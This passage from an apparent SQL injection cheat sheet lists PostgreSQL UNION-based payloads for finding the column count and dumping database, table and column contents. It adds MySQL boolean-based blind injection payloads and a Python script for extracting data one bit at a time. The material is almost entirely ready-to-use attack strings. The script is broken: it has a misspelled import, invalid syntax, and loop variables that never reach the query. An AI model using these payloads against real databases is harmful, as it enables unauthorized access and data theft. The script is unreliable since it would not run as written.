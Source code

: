 <b>*<span style="color:#631F9C">&#62;</span> PgSQL*</b>

> <span style="color:#3E386D">→</span> &#39; union select null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null, null<br>
(If there is no error when sending 4 nulls as above, it means that 4 columns are being used.)<br>

> <span style="color:#3E386D">→</span> &#39; order by 1<br>
> <span style="color:#3E386D">→</span> &#39; order by 2<br>
> <span style="color:#3E386D">→</span> &#39; order by 3<br>
> <span style="color:#3E386D">→</span> &#39; order by 4<br>
> <span style="color:#3E386D">→</span> &#39; order by N<br>
(If an error occurs using `order by`, the number of columns in use is N-1.)<br>

> <span style="color:#3E386D">→</span> &#39; union select current_database(), null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select string_agg(table_name, &#39;,&#39;), null, null, null from information_schema.tables<br>
> <span style="color:#3E386D">→</span> &#39; union select string_agg(column_name, &#39;,&#39;), null, null, null from information_schema.columns where table_name = &#60;table_name&#62;<br>
> <span style="color:#3E386D">→</span> &#39; union select string_agg(&#60;column_name&#62;), null, null, null from &#60;table_name&#62;

<b>*<span style="color:#631F9C">&#62;</span> MsSQL*</b>

---
## Boolean Based Blind SQL Injection

<b>*<span style="color:#631F9C">&#62;</span> MySQL*</b>
> <span style="color:#3E386D">→</span> &#39;or if(length(database())  >N, 1, 0) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or if(ascii(substr(database(),1,1)) > N, 1, 0) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or if((select count(table_name) from information_schema.tables) > N, 1, 0)&#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or if((select ascii(substr(table_name,1,1)) from information_schema.tables) > N, 1, 0) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or if((select count(column_name) from information_schema.columns where table_name = &#60;table_name&#62;) > N, 1, 0)&#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or if((select count(&#60;column_name&#62;) from &#60;table_name&#62;) > N, 1, 0) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or if((select length(&#60;column_name&#62;) from &#60;table_name&#62;) > N, 1, 0) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or if((select ascii(substr(&#60;column_name&#62;,1,1)) from &#60;table_name&#62;) > N, 1, 0) &#8211;&#8211;<br>

---
## Efficient Blind SQL Injection

<b>*<span style="color:#631F9C">&#62;</span> MySQL*</b>
```python
import request

url = ''
condition result = '', ''
for i in range(range):
  binary = ''
  for j in range(1, 9):
    query = "'or substr(lpad(bin(ascii(substr(database(), i, 1))), 7, 0), j, 1)%23"
    res = requests.get(url + query)
    if condition in res.text:
      binary += '1'
    else:
      binary += '0'
  result += chr(int(binary, 2))
  
```